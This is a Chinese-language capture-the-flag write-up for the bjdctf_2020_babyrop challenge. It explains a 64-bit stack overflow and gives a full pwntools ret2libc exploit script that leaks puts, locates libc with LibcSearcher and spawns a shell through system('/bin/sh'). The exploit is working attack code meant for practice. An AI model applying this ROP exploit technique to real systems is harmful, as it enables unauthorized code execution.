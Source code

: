 首先检查安全机制

![image-20201107205948502](https://static.hack1s.fun/images/2021/02/06/image-20201107205948502.png)

开启了NX的64位程序

![image-20201107210109388](https://static.hack1s.fun/images/2021/02/06/image-20201107210109388.png)

vuln函数就是一个read读了0x64，但是距离rbp只有0x20，造成溢出

本质上和上面那道题目是一样的，就是ret2libc

首先通过puts函数泄漏puts在got表中的地址

之后用LibcSearcher查找libc的版本，最后调用`system("/bin/sh")`

但是也存在一点点和前面差异的地方

一是puts函数在得到地址的时候是一个6字节的值，而不是8字节，需要一点点处理

另外就是因为程序是64位的，需要通过rdi传参

```python
from pwn import *
from LibcSearcher import *

io = remote('node3.buuoj.cn',29286)
#io = process('./bjdctf_2020_babyrop')
elf = ELF('./bjdctf_2020_babyrop')

io.recvuntil('story!\n')

plt_puts = elf.plt['puts']
got_puts = elf.got['puts']
vuln = elf.sym['vuln']

pop_rdi = 0x400733

payload = 'a'*0x20 + 'b'*0x8 + p64(pop_rdi) + p64(got_puts) + p64(plt_puts) + p64(vuln)
io.sendline(payload)

real_puts = u64(io.recv(6)+'\x00\x00')

libc = LibcSearcher(address=real_puts,func='puts')

libc_base = real_puts - libc.dump('puts')


payload = 'a'*0x20 + 'b'*0x8 + p64(pop_rdi) + p64(libc.dump('str_bin_sh')+libc_base) + p64(libc.dump('system')+libc_base)

io.sendline(payload)
io.interactive()
```

这个代码在执行时会查到好几个版本的Libc，其中选择的是标号为2的可以拿到shell

![image-20201107221552664](https://static.hack1s.fun/images/2021/02/06/image-20201107221552664.png)